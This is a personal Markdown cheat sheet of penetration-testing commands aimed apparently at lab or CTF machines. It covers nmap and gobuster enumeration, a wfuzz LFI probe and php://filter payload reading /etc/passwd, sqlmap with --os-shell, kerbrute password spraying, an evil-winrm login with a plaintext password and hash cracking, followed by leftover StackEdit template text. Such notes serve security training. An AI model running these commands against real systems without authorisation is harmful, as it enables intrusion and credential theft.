


# CIBERSECURITY CHEATSHEET - polgs
# INITIAL SCANS
## ping
**Ping 1 packet:**
```s
ping -c 1 
```
linux -> 64 ttl
windows -> 128 ttl
## nmap
**Scan fast and easy:**
```s
sudo nmap -p- 10.129.156.47 -vvv 
```


**Scan all ports and save to nmap/allPorts (Folder must exist):**
```s
nmap -p- -oA nmap/allPorts 10.129.156.47
```

**Scan versions and scripts:**
```s
nmap -sV -sC -oA nmap/search
```
**Scan fast and loud:**
```s
nmap -p- -sS --min-rate 5000 -vvv -n -Pn 10.10.11.152 -oG allPorts
```
**Scan udp ports:**
```s
sudo nmap -p 1-500 -sU -T4 10.10.11.152 -Pn
```

# WEB ENUMERATION
## gobuster
**Directory enumeration:**
```s
gobuster dir --url artcorp.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 25  > gobuster_dir.txt
```
```s
gobuster dir -u <url> -w <wordlist_file.txt> -x <file_extensions>
```
```s
gobuster dir -u http://workers.htb -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,php3,html
```
**Find subdmains using:**
```s
gobuster dns -t 30 -w /usr/share/wordlists/subdomains-top1million-110000.txt -d artcorp.htb
```
```s
gobuster vhost -w /usr/share/wordlists/subdomains-top1million-110000.txt -u http://thetoppers.htb
```
Optionally use "--append-domain" flag
```s
gobuster dns -d <domain> -w <word_list.txt> -i
```
```s
gobuster dns -d workers.htb -w /home/username/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -i
```
**Optional**
Use dns proxy to have wildcards on et/hosts (*.pol.com)
https://github.com/hubdotcom/marlon-tools/blob/master/tools/dnsproxy/dnsproxy.py
## nmap
**fast enum:**
```s
nmap --script http-enum -p80 10.129.95.187
```
## wfuzz
**Enum filename:**
```s
wfuzz -c --hc 404 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.10/FUZZ.php
```
**Testing php parameter for LFI:**
```s
wfuzz -c --hw=0 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt "http://10.10.10.10/login.php?FUZZ=/etc/passwd"
```
***Decode Payload***
```s
curl -s -X GET "http://10.10.10.10/login.php?login=php://filter/convert.base64-encode/resource=/etc/passwd" | base64 -d; echo
```
## Online tools
whatweb
whappalizer

# Web Exploitation

## sqlmap
```s
GET request
sqlmap -u http://10.129.7.81/dashboard.php?search=a -p id

sqlmap -u http://site-to-test.com/test.php?id=1*

-u: URL to scan

-p: parameter to scan

*: Parameter to scan (if -p switch is not provided)

POST request
We can provide the data being passed in the POST request body to scan by the SQLMap tool.

sqlmap -u http://site-to-test.com/admin/index.php –data=”user=admin&password=admin” -p user

–data = POST data

PHP + SQL parameter (with cookie authentification)
sqlmap --cookie=PHPSESSID=0r7rr0vcsrekau1453acmvdrg5 --os-shell -u http://10.129.7.81/dashboard.php?search=a
```
**Use --os-shell Prompt for an interactive operating system shell**


# SMB Active Directory

## Enumeration: 
### Shares
Get basic information on shares:
```s
cme smb IPADDR
```
```s
nmap --script=smb-enum-shares -p "139,445" 
```
```s
smbclient -N -L
```
```s
smbmap -H 10.10.11.152
```

### Users

**Kerbrute**

Enumerate users:
```s
./kerbrute_linux_amd64 userenum --dc IPADD -d URL users.txt
```
Password Spray: Test a single password against a list of users
```s
./kerbrute_linux_amd64 passwordspray -d URL users.txt 'password123'
```
Possible errors:
Check for clock (+400.)
```s
ntpdate -q IP
```
Fix:
```s
sudo date -s 01:22
ntpdate IP
date
```


## Access share
### smbclient
smbclient \\\\10.129.95.187\\backups
-> cd, ls get ....
Connect using password:
evil-winrm -i 10.129.228.204 -u Administrator -p 'badminton'


conncet using cert and priv key:


# Cracking


Cracking zips:
fcrackzip -D -u winrm_backup.zip -p /usr/share/wordlists/rockyou.txt


Cracking pfx:
pfx2john legacyy_dev_auth.pfx > pfx_john_legacy.hash
john -w=/usr/share/wordlists/rockyou.txt pfx_john_legacy.hash


# Terminal Ninja
## grep
**Filter txt from some words:**
```s
cat file.txt | grep -v 'Image\|Manager'
```
**Filter txt from endlines:**
```s
cat file.txt | grep .
```


<br>
<br>
<br>
<br>
<br>
<br>
<br>
<br>
<br>
<br>
<br>
---------------------------------------

## Markdown Material

StackEdit extends the standard Markdown syntax by adding extra **Markdown extensions**, providing you with some nice features.

> **ProTip:** You can disable any **Markdown extension** in the **File properties** dialog.


SmartyPants converts ASCII punctuation characters into "smart" typographic punctuation HTML entities. For example:

|                |ASCII                          |HTML                         |
|----------------|-------------------------------|-----------------------------|
|Single backticks|`'Isn't this fun?'`            |'Isn't this fun?'            |
|Quotes          |`"Isn't this fun?"`            |"Isn't this fun?"            |
|Dashes          |`-- is en-dash, --- is em-dash`|-- is en-dash, --- is em-dash|


You can render UML diagrams using [Mermaid](https://mermaidjs.github.io/). For example, this will produce a sequence diagram:



And this will produce a flow chart:




